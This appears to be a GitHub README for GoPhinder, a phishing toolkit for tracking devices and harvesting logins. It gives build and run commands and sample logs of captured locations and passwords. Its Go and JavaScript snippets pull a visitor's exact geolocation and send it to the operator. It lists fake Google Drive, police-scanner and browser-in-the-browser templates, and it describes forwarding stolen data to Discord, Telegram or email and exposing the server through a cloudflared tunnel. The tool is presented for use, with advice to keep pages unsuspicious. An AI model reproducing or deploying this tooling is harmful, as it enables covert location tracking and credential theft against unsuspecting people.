 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 A Modular Social Engineering Toolkit 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), GoPhinder is a very modular Social Engineering toolkit initially designed for device tracking, but supports other phishing based attack types.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Prerequisite
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |

## Install
```bash
git clone https://github.com/CharlesTheGreat77/GoPhinder
cd GoPhinder
go mod init gophinder
go mod tidy
go build -o gophinder run.go
./gophinder -h
```

### Example
```bash
./gophinder -p 8000 -t templates/index.html | tee locations.txt

# sends location and ip logs to webhooks, email, telegram
./gophinder -t templates/index.html -config bots.json

./gophinder -t templates/bitb.html | tee creds.txt
```

## Output
Phishing for Location
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

Phishing for Login
```bash
┌──[Login Attempt]────────────[2025-05-04 11:59:24]
│ [+] IP Address   : ::1
│ [+] Email        : example@email.com
│ [+] Password     : hello
└────────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
// example handler seen to log location data
func HandleTrack(templatePath string, notifier notifier.Notifier) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response from template
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
    		// get json data
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		if notifier != nil {
			// send to external webhooks etc.
			go notifier.Notify("Location Log", fields) // optional
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder
* Browser In The Browser Template(s)

By Default, templates send a json response to the backend for the data to be logged
```javascript
// example to push lat and lon to the backend to be logged
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({ // json request
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.


## Notifications
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the notification methods are set to false, but one can enable as many as needed.

## Screenshot
<img src="./assets/example.png" alt="GoPhinder" />

# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Contributions
Contributions are very welcomed for additional functionality, or templates!# GoPhinder
